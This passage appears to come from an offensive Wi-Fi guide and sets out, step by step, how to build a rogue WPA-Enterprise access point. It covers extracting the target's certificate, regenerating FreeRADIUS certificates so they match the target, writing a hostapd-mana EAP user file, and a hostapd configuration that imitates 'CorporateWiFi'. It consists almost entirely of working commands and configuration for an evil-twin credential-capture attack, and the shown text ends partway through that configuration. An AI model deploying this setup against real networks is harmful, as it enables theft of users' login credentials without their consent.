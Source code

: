 ### Certificate Extraction and Analysis
```bash
# Extract certificate from capture
# Open capture in Wireshark and export certificate

# Analyze certificate details
openssl x509 -inform der -in certificate.der -text -noout
```

### Setting Up Rogue RADIUS Server

#### FreeRADIUS Configuration
```bash
# Install FreeRADIUS
sudo apt install freeradius

# Navigate to certificates directory
cd /etc/freeradius/3.0/certs

# Modify certificate information to match target
sudo nano ca.cnf
sudo nano server.cnf

# Generate new certificates
sudo make destroycerts
sudo make
```

#### Creating EAP User File
```bash
# Create mana.eap_user file
cat > /etc/hostapd-mana/mana.eap_user << EOF
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2 "pass" [2]
EOF
```

### Rogue Enterprise AP Setup
```bash
# Create rogue enterprise configuration
cat > enterprise_rogue.conf << EOF
ssid=CorporateWiFi
interface=wlan0
driver=nl80211
channel=6
hw_mode=g

# Enterprise settings
ieee8021x=1
eap_server=1
eapol_key_index_workaround=0
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# WPA Enterprise
auth_algs=1
wpa=3
wpa_key_mgmt=WPA-EAP
```